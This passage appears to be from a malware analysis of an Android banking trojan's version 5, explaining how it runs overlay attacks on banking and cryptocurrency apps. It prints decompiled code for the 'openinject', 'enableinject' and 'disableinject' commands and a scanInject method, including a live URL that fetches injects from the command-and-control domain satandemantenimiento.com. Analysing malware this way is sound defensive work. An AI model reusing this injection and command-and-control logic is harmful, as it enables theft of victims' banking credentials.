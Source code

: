 The malware will perform overlay attack when the victim opens a specific app usually banking apps or cryptocurrency apps to steal the victim's credentials. In prevouis versions, the malware puts targeted apps in `packageList.txt` in `assets/` folder. In version 5, the malware will request all installed packages on the victim's device, and then reqest needed WebViews for targeted apps. The command `openinject` will open the downloaded WebView by requesting `injectlist` from the C2 server `satandemantenimiento[].]com` when a targeted app opened. The malware knows that the vicitm opens a targeted app by monitoring the screen. 

```cs
  if(Intrinsics.areEqual(s, "openinject")) {
                            Companion browserActivity$Companion0 = BrowserActivity.Companion;
                            Context context7 = workerService0.getApplicationContext();
                            Intrinsics.checkNotNullExpressionValue(context7, "workerService.applicationContext");
                            StringBuilder stringBuilder0 = new StringBuilder().append("http://satandemantenimiento.com").append("/downloadinject?access=").append("1").append("&packagename=");
                            List list0 = command0.getInjectlist();
                            if(list0 != null) {
                                inject0 = (Inject)list0.get(0);
                            }

                            Intrinsics.checkNotNull(inject0);
                            workerService1.startActivity(browserActivity$Companion0.newInstance(context7, stringBuilder0.append(inject0.getPacket()).append("&type=html").toString(), ((Inject)command0.getInjectlist().get(0)).getGetcookie(), ((Inject)command0.getInjectlist().get(0)).getPacket()).addFlags(0x10000000));
                            return;
                        }
 if(Intrinsics.areEqual(s, "enableinject")) {
                                this.scanInject(command0, workerService0);
                                return;
                            }
 if(Intrinsics.areEqual(s, "disableinject")) {
                                Preferences preferences1 = workerService0.getPreferences();
                                List list1 = command0.getInjectlist();
                                Intrinsics.checkNotNull(list1);
                                preferences1.deleteInjects(list1);
                                return;
```
And the `scanInject` class to update the list of targeted apps.


```cs
private final void scanInject(Command command0, WorkerService workerService0) {
        Log.d("INJCTS - scan", String.valueOf(command0.getInjectlist()));
        for(Object object0: (command0.getInjectlist() == null ? CollectionsKt.emptyList() : command0.getInjectlist())) {
            Inject inject0 = (Inject)object0;
            workerService0.getPreferences().addInject(inject0);
            AppKt.log$default(this, inject0 + " ENABLED", null, null, 6, null);
        }
    }
```
